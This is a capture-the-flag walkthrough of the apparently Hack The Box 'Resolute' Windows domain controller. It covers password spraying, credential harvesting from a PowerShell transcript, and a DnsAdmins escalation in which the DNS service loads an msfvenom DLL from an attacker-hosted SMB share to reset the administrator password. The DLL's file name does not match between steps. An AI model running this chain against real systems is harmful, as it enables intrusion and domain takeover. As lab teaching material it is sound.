## Overview

Resolute is a medium Windows AD box. The path:

- Enumerate domain users over RPC and find a default password left in a user's description field
- Spray that password across every account to get `melanie` on WinRM
- Find a PowerShell transcript in a hidden folder that logs a plaintext password for `ryan`
- `ryan` is in **DnsAdmins**, so load a DLL into the DNS service with `dnscmd`, restart it, and get SYSTEM

**Tools:** nmap · rpcclient · crackmapexec · smbmap · evil-winrm · SharpHound / BloodHound · msfvenom · impacket (smbserver) · dnscmd

## Recon

```
nmap -p- -sCV -oN nmapscan 10.10.10.169
```

```
PORT      STATE SERVICE      VERSION
53/tcp    open  domain       Simple DNS Plus
88/tcp    open  kerberos-sec Microsoft Windows Kerberos
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local)
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 (workgroup: MEGABANK)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local)
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (WinRM)
9389/tcp  open  mc-nmf       .NET Message Framing
```

Standard domain controller: Kerberos, LDAP, SMB and WinRM. The `smb-os-discovery` script confirms the domain is `megabank.local` and the host is `RESOLUTE`.

## Enumeration: users and the description field

Anonymous RPC is enabled, so pull the user list with `rpcclient`'s `querydispinfo`, which also prints each account's description:

```
rpcclient -U "" -N 10.10.10.169 -c querydispinfo
```

The description of the `marko` account is the giveaway:



`Account created. Password set to Welcome123!` — a new-user password was never removed from the description. Before spraying, check the password policy. The lockout threshold is **None**, so guessing a few passwords is safe:



Put the account names in `users.txt` and the single password in `passwords.txt`.

## Foothold: password spraying

Spray `Welcome123!` against every account over SMB:

```
crackmapexec smb 10.10.10.169 -u users.txt -p passwords.txt
```

Most attempts fail with `STATUS_LOGON_FAILURE`, but one account is valid:



```
megabank.local\melanie:Welcome123!
```

WinRM is open too, so spray there as well. `melanie` is the only account allowed to log in over WinRM with that password (`Pwn3d!`):



`smbmap` with those creds shows only the default shares, so there's nothing to browse:



## Shell as melanie

```
evil-winrm -u melanie -p Welcome123! -i 10.10.10.169
```



The obvious checks are locked down: `systeminfo` and `Get-CimInstance` return **access denied**, there's no PowerShell history, and WinPEAS can't run. `whoami /priv` only shows harmless privileges:



Nothing useful, so look at the filesystem. A plain `ls` hides hidden items, so use `ls -force` on `C:\`:



`C:\PSTranscripts` is hidden. It holds a dated folder, and inside that is a PowerShell transcript:





## Credentials in the transcript

PowerShell transcription logs every command it runs. Here, someone mapped a network drive by passing the password on the command line, and the transcript kept it in plaintext:



```
cmd /c net use X: \\fs01\backups ryan Serv3r4Admin4cc123!
```

Verify the credentials with crackmapexec, which shows `Pwn3d!` for WinRM:

```
crackmapexec winrm 10.10.10.169 -u ryan -p Serv3r4Admin4cc123!
```



## Enumeration: BloodHound

As `melanie`, run SharpHound to collect the domain for BloodHound:

```
*Evil-WinRM* PS C:\Users\melanie\Documents> ./SharpHound.exe
```





Download the zip through the same session and load it into BloodHound:

```
*Evil-WinRM* PS C:\Users\melanie\Documents> download 20240312195819_BloodHound.zip
```



The user `ryan` is the next step, and the group list confirms why. `ryan` is a member of **MEGABANK\DnsAdmins**:





## Privilege escalation: DnsAdmins

Members of **DnsAdmins** can set a server-level plugin DLL on the DNS service with `dnscmd`. The DNS service loads that DLL as `SYSTEM`, so the plugin runs with full privileges when the service restarts. The DLL has to be loaded from a share: running it locally on the box gave a permission-denied error.

> Reference: [HackTricks — DnsAdmins](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges#dnsadmins)

**1. Create the DLL** with msfvenom:

```
msfvenom -p windows/x64/exec cmd='net user administrator P@$$w0rd /domain' -f dll -o adduser.dll
```



**2. Set up an SMB share** on the attacker machine that serves the DLL:

```
impacket-smbserver myshare .
```



**3. Point the DNS service at the DLL** from `ryan`'s shell:

```
dnscmd 127.0.0.1 /config /serverlevelplugindll \\10.10.14.31\myshare\shell.dll
```


**4. Restart DNS** so it loads the DLL:

```
sc.exe stop dns
sc.exe start dns
```



The domain controller connects to the share as its machine account `RESOLUTE$` and pulls the DLL, which the DNS service then loads:



Read the root flag from the Administrator's desktop:



## Dead ends

Worth recording what didn't pan out:

- **Running the DLL locally** — executing it on the target itself gave a permission-denied error. It has to be pulled from a share.
- **`systeminfo`, `Get-CimInstance`** — access denied as `melanie` and `ryan`.
- **WinPEAS** — couldn't run on the box.
- **PowerShell history** — none for either user.
- **`smbmap`** — only default shares for `melanie`.

## References

- [DnsAdmins privilege escalation — HackTricks](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges#dnsadmins)
